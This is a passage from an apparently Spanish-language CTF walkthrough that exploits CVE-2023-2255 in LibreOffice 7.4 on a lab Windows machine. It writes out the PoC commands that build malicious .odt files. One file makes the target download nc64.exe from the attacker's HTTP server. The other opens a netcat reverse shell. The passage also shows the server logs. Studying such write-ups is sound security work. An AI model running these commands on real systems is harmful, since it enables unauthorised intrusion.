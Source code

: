 Si vemos los programas instalados podemos que está instalado LibreOffice, y entre los archivos podemos ver la versión:

```bash
*Evil-WinRM* PS C:\Program Files\LibreOffice\readmes> type readme_es.txt


======================================================================

Léame de LibreOffice 7.4

======================================================================
```

Esta versión es vulnerable al CVE-2023-2255, por lo que podemos tomar un [PoC público](https://github.com/elweth-sec/CVE-2023-2255) y explotarlo; primero generemos el documento malicioso:

```bash
❯ python CVE-2023-2255.py --cmd 'cmd /c curl -o C:\Temp\nc64.exe http://<your-ip>:8000/nc64.exe' --output test.odt
File test.odt has been created !
```

Esto nos creará un documento que al abrirlo, abusando de la vulnerabilidad ejecutará el comando `curl` para descargar `nc64.exe` al directorio `C:\Temp` que nosotros habremos creado con anterioridad. Al ponerlo dentro de la carpeta como prosigue; descargándolo de un servidor HTTP creado con `python -m http.server` por nosotros

```bash
*Evil-WinRM* PS C:\Important Documents> curl -o test.odt http://<your-ip>:8000/test.odt
*Evil-WinRM* PS C:\Important Documents> dir


    Directory: C:\Important Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/7/2024   3:59 AM          30553 test.odt

```

Luego de un rato, en el mismo servidor que hemos iniciado anteriormente recibiremos una petición:

```bash
❯ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.14 - - [06/Sep/2024 21:59:23] "GET /test.odt HTTP/1.1" 200 -
10.10.11.14 - - [06/Sep/2024 22:00:25] "GET /nc64.exe HTTP/1.1" 200 -
```

Lo que es un total indicio de ejecución de comandos. Ahora que tenemos el netcat guardado en el sistema solamente tenemos que generar un documento que lo ejecute y nos mande una consola interactiva a nuestro equipo. (reverse shell)

```bash
❯ python CVE-2023-2255.py --cmd 'cmd /c C:\Temp\nc64.exe -e cmd.exe <your-ip> 443' --output test.odt
File test.odt has been created !
```
